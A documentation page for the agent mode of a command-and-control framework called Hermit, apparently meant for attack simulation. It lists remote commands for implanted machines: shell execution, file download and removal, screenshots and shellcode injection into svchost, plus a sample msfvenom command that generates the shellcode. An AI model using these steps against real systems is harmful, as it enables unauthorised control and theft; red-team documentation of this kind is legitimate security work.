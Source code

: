 +++
title = "Agent"
date = 2024-01-11
[extra]
toc=true
+++

After executing the implant in target computer, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check agents with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

## Switch to Agent Mode

To interact with the agent for attack simulation, you can run the `agent use <ID or Name>` command.

```sh
# Specify the agent ID
Hermit $ agent use 1

# Specify the agent name
Hermit $ agent use agent_123
```

<br />

## Send Tasks

In the agent mode, you can remote control to target computer with sending tasks to the agent.  
Specifically, you can use the following commands:

|Command|Description|
|---|---|
|exit|Exit the agent mode.|
|cat|Read a file content.|
|cd|Change the current directory.|
|download|Download a file from target computer.|
|info|Get the detailed information of the system.|
|ls|List files in specified directory.|
|loot|Show the looted information for the agent that you've obtained so far. (Under development)|
|net|Get the network information.|
|ps|Get the running processes.|
|pwd|Get the current directory.|
|rm|Remove file or directory.|
|screenshot|Take a screenshot for target machine.|
|shell|Execute shell command for target machine.|
|shellcode|Inject a shellcode for executing arbitrary commands in the new created process.|
|sleep|Change sleep time for sending requests to C2 server.|
|upload|Upload a file to target computer. (Under development)|
|whoami|Get current username.|
|help|Print this message or the help of the given subcommand(s)|

### Shell

- CMD

```sh
Hermit [agent: agent_2352650890] $ shell whoami
[+] VICTIM\john
```

- PowerShell

If you want to run PowerShell command, add the `--ps` flag.

```sh
Hermit [agent: agent_2352650890] $ shell --ps Get-Process
[+]
...
```

### Shellcode

To execute shellcode in process, you need to generate shellcode at first.  
For example, the following command generates a shellcode which opens `calc.exe`.  
Currently **HEX** encoding required.

```sh
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o /tmp/shellcode.txt
```

After generating, run the `shellcode` command in the agent mode:

```sh
Hermit [agent: agent_2352650890] $ shellcode --process svchost --file /tmp/shellcode.txt
```

If successful, the target computer opens `calc.exe`.

<br />

## Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

<br />

## Delete Agent

```sh
# Specify the agent ID
Hermit $ agent delete 1

# Specify the agent name
Hermit $ agent delete agent_123
```

### Delete All Agents

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```
